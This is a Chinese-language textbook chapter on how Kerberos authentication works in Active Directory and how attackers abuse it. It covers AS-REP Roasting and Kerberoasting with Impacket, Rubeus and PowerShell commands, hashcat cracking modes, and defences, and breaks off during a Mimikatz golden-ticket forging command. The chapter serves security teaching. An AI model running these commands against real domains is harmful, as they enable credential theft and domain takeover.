







# 第54章 Kerberos协议与攻击

> **难度等级：🟠 高等级**
>
> **预计学习时间：180分钟**
>
> **本章看点：Kerberos协议详解、AS/TGS/AP三大交换、预认证、AS-REP Roasting、Kerberoasting、黄金票据、白银票据、MS14-068、钻石票据/蓝宝石票据、5个实战案例**

::: tip 说明
上一章我们学习了活动目录的基础，
这一章我们来深入学习
Kerberos协议。

Kerberos是什么？
它是AD域中默认的认证协议。
域用户登录、访问共享、
访问各种服务，
用的都是Kerberos。

**为什么要学Kerberos？**
因为域渗透中
很多经典的攻击方法
都是针对Kerberos的，
比如：
- 黄金票据
- 白银票据
- Kerberoasting
- AS-REP Roasting
- Pass-the-Ticket
- ...

不了解Kerberos，
这些攻击方法你根本看不懂原理，
只能照着命令敲，
知其然不知其所以然。

这一章我们会从
Kerberos协议的基本原理讲起，
然后讲各种针对Kerberos的攻击方法。

内容比较多，
也比较绕，
但一定要理解透。

准备好了吗？
开始！
:::

---

## 📖 本章概述

::: tip 写在前面
Kerberos这个名字
来源于希腊神话，
是一只三头狗，
负责看守地狱的大门。

用它来命名认证协议，
意思就是：
**像三头狗一样守护安全。**

Kerberos协议是
麻省理工学院（MIT）
在1980年代开发的，
后来微软把它用到了Windows 2000里，
成为了AD域的默认认证协议。

学习Kerberos的难点在于：
- 概念多：TGT、ST、KDC、SPN、PAC...
- 步骤多：AS交换、TGS交换、AP交换
- 加密多：好几种密钥，好多次加密

很多人学了好几遍
还是稀里糊涂的。

没关系，
这一章我们会
用通俗易懂的方式，
一步一步把Kerberos讲明白。

**学习建议：**
1. 先搞清楚每个角色是干嘛的
2. 然后跟着认证流程一步一步走
3. 每一步都搞清楚：谁发给谁、发了什么、用什么加密的、为什么要这么做
4. 理解了原理，攻击方法自然就懂了
:::

---

## 🎯 学习目标

读完本章，你将能够：

- [x] 理解Kerberos协议的基本原理
- [x] 掌握AS交换、TGS交换、AP交换三大流程
- [x] 理解TGT、ST、SPN、PAC等概念
- [x] 理解预认证的作用
- [x] 掌握AS-REP Roasting攻击原理和利用
- [x] 掌握Kerberoasting攻击原理和利用
- [x] 掌握黄金票据（Golden Ticket）原理和利用
- [x] 掌握白银票据（Silver Ticket）原理和利用
- [x] 了解MS14-068（Pac漏洞）
- [x] 了解钻石票据（Diamond Ticket）
- [x] 了解蓝宝石票据（Sapphire Ticket）
- [x] 熟悉Kerberos相关工具
- [x] 为后续域渗透攻击打下基础

---

## 🔍 Kerberos基础

### 1.1 Kerberos是什么？

**Kerberos** 是一种
**网络认证协议**，
用于在不安全的网络中
安全地验证用户身份。

说人话：
**Kerberos就是一个"检票系统"，
你要进某个地方（访问服务），
得先买票，
检票通过了才能进。**

**Kerberos的特点：**
1. **安全**：基于对称加密，密码不在网络上传输
2. **单点登录（SSO）**：登录一次，访问多个服务
3. **双向认证**：不仅客户端要证明自己身份，服务端也要
4. **票据机制**：用票据（Ticket）来认证，不用每次都输密码

### 1.2 Kerberos的角色

Kerberos里有三个角色：

| 角色 | 简称 | 说明 |
|------|------|------|
| **客户端（Client）** | - | 要访问服务的用户/程序 |
| **密钥分发中心** | **KDC** | 负责发"票"的，相当于售票大厅 |
| **服务端（Server）** | - | 提供服务的服务器 |

**KDC又分为两部分：**

| 部分 | 简称 | 说明 |
|------|------|------|
| **认证服务** | **AS**（Authentication Service） | 卖"入场券"的，验证用户身份，发TGT |
| **票据授权服务** | **TGS**（Ticket Granting Service） | 卖"电影票"的，用TGT换服务票据ST |

**在AD域中：**
- **KDC** 就是域控制器（DC）
- **AS和TGS** 都在域控上运行
- 每个域用户都有自己的密码（密钥）
- 每个服务都有自己的服务账号和密码（密钥）

### 1.3 几个重要概念

在讲流程之前，
先搞清楚几个重要概念。

**1. TGT（Ticket Granting Ticket，票据授权票据）**
- 可以理解成"入场券"或者"通票"
- 用来向TGS证明"我是谁"
- 有了TGT，才能申请其他服务的票据
- 由KDC的AS颁发
- 用krbtgt账号的密码Hash加密
- 有效期一般是10小时

**2. ST（Service Ticket，服务票据）**
- 可以理解成"具体某个服务的门票"
- 比如访问文件共享的票、访问SQL的票
- 有了ST，才能访问对应的服务
- 由KDC的TGS颁发
- 用服务账号的密码Hash加密
- 有效期一般是600分钟（10小时）

**3. SPN（Service Principal Name，服务主体名称）**
- 服务的唯一标识符
- 相当于服务的"身份证号"
- 格式：`服务类/主机名:端口`
- 例子：
  - `MSSQLSvc/sql01.corp.com:1433`
  - `HTTP/web01.corp.com`
  - `HOST/DC01.corp.com`
- 每个服务账号可以有多个SPN
- 要申请某个服务的ST，必须知道它的SPN

**4. PAC（Privilege Attribute Certificate，特权属性证书）**
- 票据里面的一部分，存着用户的权限信息
- 比如用户属于哪些组、有什么权限
- 服务端拿到ST后，从PAC里知道用户有什么权限
- PAC是用服务账号的密钥签名的
- 重要：PAC决定了用户的权限

**5. 会话密钥（Session Key）**
- 临时生成的密钥
- 用于客户端和服务端之间的加密通信
- 每次认证都会生成新的会话密钥

**图54-1 Kerberos角色与核心概念关系图**



### 1.4 Kerberos的整体流程

Kerberos认证分为三大步：

```
第一步：AS交换（AS Exchange）
客户端 → AS：我要TGT
AS → 客户端：给你TGT和会话密钥

第二步：TGS交换（TGS Exchange）
客户端 → TGS：我有TGT，我要xxx服务的ST
TGS → 客户端：给你ST和服务会话密钥

第三步：AP交换（AP Exchange）
客户端 → 服务端：我有ST，让我访问服务
服务端 → 客户端：验证通过
```

下面我们一步一步详细讲。

---

## 🎫 第一步：AS交换

### 2.1 AS-REQ（认证服务请求）

**谁发的？** 客户端（用户）发给KDC的AS

**发了什么？**
1. 用户名（明文）
2. 时间戳（用用户密码Hash加密）
3. 要申请TGT

**为什么要加密时间戳？**
- 证明你知道用户的密码
- 防止重放攻击
- 这就是"预认证"（Pre-Authentication）

**为什么不用传密码？**
- 密码不在网络上传输，安全
- 用密码加密的东西能解密，就证明知道密码
- 类似"挑战响应"的思路

### 2.2 AS-REP（认证服务响应）

**谁发的？** KDC的AS发给客户端

**发了什么？**
两部分内容：

**第一部分（用用户密码Hash加密）：**
- 会话密钥（TGT会话密钥，也叫login session key）
- TGT的有效期
- 其他信息

**第二部分（就是TGT，用krbtgt的Hash加密）：**
- 用户名
- 用户SID
- 会话密钥（和上面的一样）
- TGT有效期
- PAC（用户的组信息、权限信息）
- 其他信息

**客户端收到后做什么？**
1. 用自己的密码Hash解密第一部分
2. 拿到会话密钥，保存好
3. TGT解不开（因为是krbtgt加密的），但也保存好
4. 以后申请ST就用这个TGT

### 2.3 预认证（Pre-Authentication）

**什么是预认证？**
就是AS-REQ里那个
用用户密码Hash加密的时间戳。
有了这个，
KDC才能验证用户身份。

**为什么要有预认证？**
如果没有预认证，
任何人都可以随便发AS-REQ，
KDC都会返回AS-REP。
攻击者就可以收集AS-REP，
然后离线爆破用户的密码。

**预认证可以关闭吗？**
可以。
在用户属性里有个选项：
"不需要Kerberos预身份验证"
（Do not require Kerberos preauthentication）

**如果关闭了预认证会怎样？**
- 攻击者不需要知道任何东西
- 直接给KDC发AS-REQ
- KDC就会返回AS-REP
- 攻击者拿AS-REP离线爆破密码
- 这就是 **AS-REP Roasting** 攻击

**AS-REP Roasting的条件：**
- 用户设置了"不需要预认证"
- 知道用户名就行

后面会详细讲这个攻击。

### 2.4 AS交换图解

```
┌─────────┐                         ┌─────┐
│ 客户端  │                         │ KDC │
└────┬────┘                         └──┬──┘
     │  AS-REQ（AS请求）               │
     │  - 用户名（明文）               │
     │  - 时间戳（用户密码Hash加密）   │
     ├────────────────────────────────►│
     │                                │
     │  AS-REP（AS响应）              │
     │  第一部分（用户密码加密）：     │
     │    - TGT会话密钥               │
     │    - 有效期等                  │
     │  第二部分（TGT，krbtgt加密）： │
     │    - 用户名、SID               │
     │    - 会话密钥                  │
     │    - PAC（权限信息）           │
     │    - 有效期                    │
     │◄───────────────────────────────┤
┌────┴────┐                         ┌──┴──┐
│ 客户端  │                         │ KDC │
└─────────┘                         └─────┘
```

---

## 🎟️ 第二步：TGS交换

### 3.1 TGS-REQ（票据授权服务请求）

用户拿到TGT之后，
想访问某个服务，
就去KDC的TGS那里
申请服务票据（ST）。

**谁发的？** 客户端发给KDC的TGS

**发了什么？**
1. TGT（krbtgt加密的那个，原封不动）
2. Authenticator（认证符，用TGT会话密钥加密）
   - 用户名
   - 时间戳
3. 要访问的服务的SPN

**为什么要发Authenticator？**
- 证明TGT确实是你的
- 防止别人偷了TGT来用
- 类似"票据 + 身份证"双重验证

### 3.2 TGS-REP（票据授权服务响应）

**谁发的？** KDC的TGS发给客户端

**KDC做了什么？**
1. 用krbtgt的Hash解密TGT
2. 从TGT里拿出会话密钥
3. 用会话密钥解密Authenticator
4. 验证用户名、时间戳是否合法
5. 验证通过，生成ST

**发了什么？**
也是两部分：

**第一部分（用TGT会话密钥加密）：**
- 服务会话密钥（service session key）
- ST的有效期
- 其他信息

**第二部分（就是ST，用服务账号Hash加密）：**
- 用户名
- 用户SID
- 服务会话密钥
- ST有效期
- PAC（用户的组信息、权限信息）
- 签名（用服务账号的密钥签名）
- 其他信息

**客户端收到后做什么？**
1. 用TGT会话密钥解密第一部分
2. 拿到服务会话密钥，保存好
3. ST解不开（服务账号加密的），也保存好
4. 拿着ST去访问服务

### 3.3 TGS交换图解

```
┌─────────┐                         ┌─────┐
│ 客户端  │                         │ KDC │
└────┬────┘                         └──┬──┘
     │  TGS-REQ（TGS请求）             │
     │  - TGT（krbtgt加密）            │
     │  - Authenticator（会话密钥加密）│
     │  - 目标服务SPN                 │
     ├────────────────────────────────►│
     │                                │
     │  TGS-REP（TGS响应）            │
     │  第一部分（TGT会话密钥加密）：  │
     │    - 服务会话密钥              │
     │    - 有效期等                  │
     │  第二部分（ST，服务账号加密）： │
     │    - 用户名、SID               │
     │    - 服务会话密钥              │
     │    - PAC（权限信息）           │
     │    - 有效期                    │
     │◄───────────────────────────────┤
┌────┴────┐                         ┌──┴──┐
│ 客户端  │                         │ KDC │
└─────────┘                         └─────┘
```

---

## 🎬 第三步：AP交换

### 4.1 AP-REQ（认证请求）

用户拿到ST之后，
就可以去访问真正的服务了。

**谁发的？** 客户端发给服务端

**发了什么？**
1. ST（服务账号Hash加密的那个，原封不动）
2. Authenticator（认证符，用服务会话密钥加密）
   - 用户名
   - 时间戳
   - 可能还有其他信息

### 4.2 服务端验证

**服务端收到后做什么？**

1. 用自己的服务账号密码Hash解密ST
2. 从ST里拿出服务会话密钥
3. 用服务会话密钥解密Authenticator
4. 验证用户名、时间戳
5. 检查ST的有效期
6. 验证PAC的签名（确保PAC没被篡改）
7. 从PAC里读取用户的组和权限
8. 根据权限决定用户能做什么

**PAC验证：**
- PAC是用服务账号的密钥签名的
- 服务端用自己的密钥验证签名
- 确保PAC是KDC发的，没被篡改
- 这一步很重要，因为用户权限在PAC里

**验证通过了怎么办？**
- 允许用户访问服务
- 根据PAC里的权限授权
- 比如用户是管理员就给管理员权限

### 4.3 AP-REP（认证响应）（可选）

如果需要双向认证，
服务端还会发回一个响应，
证明自己身份。

不过很多时候这一步是可选的，
视具体应用而定。

### 4.4 AP交换图解

```
┌─────────┐                         ┌────────┐
│ 客户端  │                         │ 服务端 │
└────┬────┘                         └───┬────┘
     │  AP-REQ（AP请求）               │
     │  - ST（服务账号加密）           │
     │  - Authenticator（会话密钥加密）│
     ├────────────────────────────────►│
     │                                │
     │                                │ 1. 解密ST，拿会话密钥
     │                                │ 2. 解密Authenticator，验证
     │                                │ 3. 验证PAC签名
     │                                │ 4. 从PAC获取权限
     │                                │
     │      AP-REP（可选）            │
     │◄───────────────────────────────┤
┌────┴────┐                         ┌───┴────┐
│ 客户端  │                         │ 服务端 │
└─────────┘                         └────────┘
```

---

## 🔑 Kerberos完整流程总结

### 5.1 流程图

把三步合起来，
完整的Kerberos认证流程：

```
客户端                                KDC                              服务端
  │                                    │                                │
  │ 1. AS-REQ（用户名+加密时间戳）    │                                │
  ├───────────────────────────────────►│                                │
  │                                    │                                │
  │ 2. AS-REP（TGT+会话密钥）         │                                │
  │◄───────────────────────────────────┤                                │
  │                                    │                                │
  │ 3. TGS-REQ（TGT+Authenticator+SPN）│                                │
  ├───────────────────────────────────►│                                │
  │                                    │                                │
  │ 4. TGS-REP（ST+服务会话密钥）     │                                │
  │◄───────────────────────────────────┤                                │
  │                                    │                                │
  │ 5. AP-REQ（ST+Authenticator）     │                                │
  ├─────────────────────────────────────────────────────────────────────►│
  │                                    │                                │
  │                                    │                                │ 6. 解密ST，验证，授权
  │                                    │                                │
```

### 5.2 密钥总结

Kerberos里有好几种密钥，
很容易搞混，
我们来总结一下：

**图54-2 Kerberos三大交换完整认证流程时序图**



| 密钥 | 谁的密码 | 用来加密什么 |
|------|----------|-------------|
| **用户密码Hash** | 用户 | AS-REQ的时间戳、AS-REP的第一部分 |
| **krbtgt的Hash** | krbtgt账号 | TGT |
| **服务账号Hash** | 服务账号 | ST |
| **TGT会话密钥** | 临时生成 | TGS-REQ的Authenticator、TGS-REP第一部分 |
| **服务会话密钥** | 临时生成 | AP-REQ的Authenticator、客户端-服务端通信 |

**简单记：**
- TGT → krbtgt加密
- ST → 服务账号加密
- 两个会话密钥 → 临时的，用来加密认证符

### 5.3 票据总结

| 票据 | 全称 | 给谁的 | 用什么加密 | 用途 |
|------|------|--------|-----------|------|
| **TGT** | Ticket Granting Ticket | TGS | krbtgt的Hash | 申请ST用 |
| **ST** | Service Ticket | 服务端 | 服务账号的Hash | 访问服务用 |

---

## 🔥 攻击1：AS-REP Roasting

### 6.1 原理

**什么是AS-REP Roasting？**

如果某个用户
**关闭了Kerberos预认证**，
攻击者就可以直接向KDC
发送AS-REQ请求，
KDC会返回AS-REP。
AS-REP的第一部分
是用用户密码Hash加密的，
攻击者可以拿这个AS-REP
**离线爆破用户密码**。

**为什么叫Roasting？**
"Roast"是烤、烘焙的意思，
就是把票据拿回来
慢慢"烤"（爆破）。

**攻击条件：**
1. 目标用户设置了"不需要Kerberos预身份验证"
2. 攻击者知道用户名

**攻击流程：**
```
攻击者 → KDC：AS-REQ（用户名，不加密时间戳）
KDC → 攻击者：AS-REP（和正常的一样）
攻击者：拿AS-REP离线爆破密码
```

**图54-3 AS-REP Roasting 攻击流程时序图**



### 6.2 怎么发现可攻击的用户？

**方法1：用PowerView枚举**
```powershell
# 查找没有启用预认证的用户
Get-DomainUser -PreauthNotRequired -Properties samaccountname
```

**方法2：用AD模块**
```powershell
Get-ADUser -Filter {DoesNotRequirePreAuth -eq $True} -Properties DoesNotRequirePreAuth
```

**方法3：用BloodHound**
- 查询"AS-REP Roastable Users"
- 一目了然

### 6.3 怎么利用？

**方法1：用Impacket的GetNPUsers.py**
```bash
# 列出所有不需要预认证的用户
GetNPUsers.py corp.com/ -dc-ip 10.0.0.1

# 指定用户，直接请求AS-REP并保存
GetNPUsers.py corp.com/user1 -dc-ip 10.0.0.1 -outputfile hashes.txt

# 已知用户名列表，批量请求
GetNPUsers.py corp.com/ -usersfile users.txt -dc-ip 10.0.0.1 -outputfile hashes.txt
```

**方法2：用Rubeus**
```powershell
# 查找并请求所有可AS-REP Roasting的用户
Rubeus.exe asreproast /format:hashcat /outfile:hashes.txt
```

**方法3：手动（用PowerShell）**
也可以手动构造AS-REQ，
不过一般用工具就行。

### 6.4 爆破密码

拿到hash之后，
用Hashcat或者John爆破：

```bash
# Hashcat爆破
hashcat -m 18200 hashes.txt wordlist.txt

# John爆破
john --wordlist=wordlist.txt hashes.txt
```

Hashcat模式号：18200（Kerberos 5, etype 23, AS-REP）

### 6.5 防御方法

1. **不要关闭预认证**：默认是开着的，没事别关
2. **强密码**：就算被Roast了，也爆破不出来
3. **定期检查**：检查有没有用户关了预认证
4. **监控异常AS-REQ**：大量异常的AS请求可能是攻击

---

## 🔥 攻击2：Kerberoasting

### 7.1 原理

**什么是Kerberoasting？**

任何一个有效的域用户，
都可以向KDC请求
**任何服务**的服务票据（ST）。
ST是用服务账号的密码Hash加密的。
攻击者拿到ST之后，
就可以**离线爆破服务账号的密码**。

**为什么叫Kerberoasting？**
针对Kerberos的Roasting攻击，
所以叫Kerberoasting。

**攻击条件：**
1. 有一个普通的域用户账号
2. 目标服务账号有SPN

**攻击流程：**
```
攻击者（普通域用户）→ KDC：TGS-REQ（要服务A的ST）
KDC → 攻击者：TGS-REP（包含ST）
攻击者：拿ST离线爆破服务账号密码
```

**为什么这是一个漏洞？**
- 设计上就是这样的，不是bug
- 因为Kerberos的设计就是任何用户都可以请求任何服务的票据
- 问题在于：如果服务账号密码弱，就会被爆破出来

**图54-4 Kerberoasting 攻击流程时序图**



**为什么服务账号是高价值目标？**
- 服务账号通常权限很高（本地管理员、甚至域管理员）
- 服务账号密码通常长期不变
- 拿到服务账号密码，往往能横向到服务器

### 7.2 怎么找有SPN的用户？

**方法1：用PowerView**
```powershell
# 查找有SPN的用户
Get-DomainUser -SPN
```

**方法2：用AD模块**
```powershell
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName
```

**方法3：用setspn命令**
```cmd
setspn -T corp.com -Q */*
```

**方法4：用BloodHound**
- 查询"All Kerberoastable Users"

### 7.3 怎么利用？

**方法1：用Impacket的GetUserSPNs.py**
```bash
# 列出所有有SPN的用户
GetUserSPNs.py corp.com/user1:password123 -dc-ip 10.0.0.1

# 请求所有服务票据并保存
GetUserSPNs.py corp.com/user1:password123 -dc-ip 10.0.0.1 -request -outputfile hashes.txt

# 只请求指定用户的
GetUserSPNs.py corp.com/user1:password123 -dc-ip 10.0.0.1 -request-user mssql_svc
```

**方法2：用Rubeus**
```powershell
# Kerberoast所有用户
Rubeus.exe kerberoast /format:hashcat /outfile:hashes.txt

# 指定用户
Rubeus.exe kerberoast /user:mssql_svc /format:hashcat
```

**方法3：用PowerShell（手动）**
```powershell
# 请求服务票据
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/sql01.corp.com:1433"
```

**方法4：用Mimikatz**
也可以，不过上面的工具更方便。

### 7.4 爆破密码

```bash
# Hashcat爆破
hashcat -m 13100 hashes.txt wordlist.txt
```

Hashcat模式号：13100（Kerberos 5 TGS-REP etype 23）

### 7.5 防御方法

1. **强密码**：服务账号用超长、复杂的密码
2. **托管服务账号（MSA/gMSA）**：系统自动管理密码，定期自动更改
3. **定期更换服务账号密码**
4. **最小权限**：服务账号权限尽量小
5. **监控异常TGS请求**：短时间大量TGS请求可能是攻击
6. **敏感账号保护**：把高权限账号加进Protected Users组

---

## 🔥 攻击3：黄金票据（Golden Ticket）

### 8.1 原理

**什么是黄金票据？**

攻击者拿到了 **krbtgt账号的密码Hash**，
就可以自己**伪造TGT**。
因为TGT就是用krbtgt的Hash加密的，
有了krbtgt的Hash，
想造什么TGT就造什么TGT。

**为什么叫黄金票据？**
因为它是"票中之王"，
有了它就能访问任何服务，
权限最高，
像黄金一样珍贵。

**攻击条件：**
1. 拿到krbtgt账号的NTLM Hash
2. 知道域名、域SID
3. 知道目标用户名

**怎么拿krbtgt的Hash？**
- 拿下域控，从NTDS.dit里导出
- DCSync攻击
- 等等...

**伪造的TGT能干嘛？**
- 伪装成任意用户（比如域管理员）
- 可以申请任何服务的ST
- 相当于拥有域内最高权限
- 只要krbtgt不改密码，就一直有效

### 8.2 怎么造黄金票据？

**用Mimikatz：**
```
kerberos::golden /user:Administrator /domain:corp.com /sid:S-1-5-21-123456789-123456789-123456789 /krbtgt:aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa /ptt
```

参数说明：
- `/user`：要伪造的用户名（随便填，一般填Administrator）
- `/domain`：域名
- `/sid`：域的SID（注意：是域的SID，不是用户的，就是去掉最后一段）
